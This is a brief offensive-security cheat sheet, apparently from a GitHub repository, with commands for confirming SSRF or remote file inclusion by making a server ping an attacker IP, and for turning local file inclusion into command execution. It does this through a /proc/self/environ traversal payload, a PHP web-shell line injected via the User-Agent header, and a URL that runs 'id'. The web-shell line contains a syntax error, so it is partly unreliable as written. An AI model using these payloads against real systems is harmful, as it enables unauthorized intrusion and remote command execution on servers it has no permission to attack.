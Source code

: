 ### check for ssrf or RFI 

```
kali
sudo tcpdump icmp -i tun0

Webserver
python3 <webserver-url> -c "ping -c4 <attacker-ip>"
``` 

### LFI
```
file=../../../../../proc/self/environ

change user-agent: <?php system[$_GET['cmd']); ?>

<url>/console?file=../../../../../proc/self/environ?cmd=id
```
